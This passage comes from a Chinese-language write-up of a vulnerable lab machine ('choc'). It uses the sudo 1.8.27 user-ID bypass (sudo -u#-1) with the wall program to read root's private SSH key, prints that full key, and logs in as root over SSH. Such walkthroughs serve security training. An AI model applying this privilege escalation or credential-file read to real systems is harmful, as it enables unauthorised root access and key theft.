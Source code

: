可以定位到 [sudo 1.8.27 - Security Bypass](https://www.exploit-db.com/exploits/47502)

尝试借此进行利用

:::warning

这里利用 wall 程序读取文件，原理是将文件的数据读取出来作为信息，发送给所有登录的用户，这里包括 SSH 和 tty 登陆的用户，不包含反弹 shell 登录的用户，所以建议在前面的用户中找到 id_rsa 文件，并借此建立 SSH 会话

:::

```bash
sarah@choc:/home/torki/.ssh$ sudo -u#-1 /usr/bin/wall --nobanner /root/.ssh/id_rsa
```

在另外一个终端中，收到 wall 群发的消息

```plaintext
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAuSMhRxXhWoexxyZWPK4pkjyVHhT1jAmUYdEhKEFBLZh9z93ZW25M
lrj03xjFd4zP5AAHEG9p5h5SNi3ltHTtml7Nj59XlV6Heru/cwX7Yykxu75tZRxzQR4EjV
qUmxvqJgfql+XzKg3JgNwHRpG3tcW8Rdxbb3owVR97kjZP+3kA/pQGrQKdFe893Q1u2oDa
4R+v+jsYmzwjf/1M8m/S+J0hYzTOI+kQlBnZmMvpJYDidmyG1RO3dcLCpxCQpydH7GfO/s
6j0DdCvDr6+8C4eAzgDE5irjdMh2dKySNveNiMuhzsv1PS33ZWgx/ITlxu9zwiuufQm6D5
TcDYKMGCSQAAA8DHBCmTxwQpkwAAAAdzc2gtcnNhAAABAQC5IyFHFeFah7HHJlY8rimSPJ
UeFPWMCZRh0SEoQUEtmH3P3dlbbkyWuPTfGMV3jM/kAAcQb2nmHlI2LeW0dO2aXs2Pn1eV
Xod6u79zBftjKTG7vm1lHHNBHgSNWpSbG+omB+qX5fMqDcmA3AdGkbe1xbxF3FtvejBVH3
uSNk/7eQD+lAatAp0V7z3dDW7agNrhH6/6OxibPCN//Uzyb9L4nSFjNM4j6RCUGdmYy+kl
gOJ2bIbVE7d1wsKnEJCnJ0fsZ87+zqPQN0K8Ovr7wLh4DOAMTmKuN0yHZ0rJI2942Iy6HO
y/U9LfdlaDH8hOXG73PCK659CboPlNwNgowYJJAAAAAwEAAQAAAQAQK31QlBymp4tjdXm6
uwtudlQf2HzJylxnXriip3Bl5xe1/A5r6epOj8Dza1pz4pyVsVrsmI6LRsKvcLrLVBscjI
MvtB8WMLdshNFn3nHia0qoty0e06lNWq3TGsI3+ewtfiuDMNZYKfQbiRwpkbiV67tR7rkd
t3JZPPKyBoRd1kGjnPzJc2DPyaAtJtS21w86ZxJZtaMWUL6SE1+80VWv0XXPtlmAipfdgF
76A/Z4izCNolx0s+Ptus8gqaxJDeGI4xX5aZZ33kc5cSvNjI2hH6kFX39sS7beVz/zYDKA
BkJ0fZpNQ+HZfqGvT93YHAFZVpdlv7ysn16oNkOwZuZxAAAAgQCs/OtmKQ2SXR0ZrVryDk
58HSK2xCRcMaOqNamWSm+JaKEusms25bCD3liQGbazJyy6eS7iR2DOQPYwdU94dak72X+W
xwOexz8pwHGflvrA7SlKW4pXshuccpxgdC/KkqZRQyQvy7NbDTyGM+3uTQSnABmZWl8mJa
NtfY+fCEoKDgAAAIEA5urQzWNxzvBa4krknAuUMRD8TcsL4NjE6QCj9D1KJh2vGiBqNYjH
f6hZ+4LPFlaWiusjxZAF6vIaZJU0UHRzdcITqm1L20CZQr2D3tgWS6+VAGQHb1me5uoC4J
6Px6A7preSEjS2GtECqWxZevl8YqWEJtWaO1WDK61+Mr266UsAAACBAM0/S7QUbRqSmNTq
wd/4y9U4JxtOfeV4O0I+JNlTPkA2vdUeHEwWkKRqk3re72JwYlUAsD4AhXO1oEdfpO32fx
wavKtBNMpI64CiNVrPY8w9DPoWdCzxtFeRq1V50i9wdiVlHIdn0Ac+6T9Wv/0v8J7GXIkH
gskjOtELMuhigHo7AAAACXJvb3RAY2hvYwE=
-----END OPENSSH PRIVATE KEY-----
```

## User - root

```bash
┌─[randark@parrot]─[~/tmp]
└──╼ $ ssh -i root_id_rsa root@192.168.56.122


##############################
#                            #
#       Welcome to my SSH !  #
#       Carl.                #
#                            #
##############################


Linux choc 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
```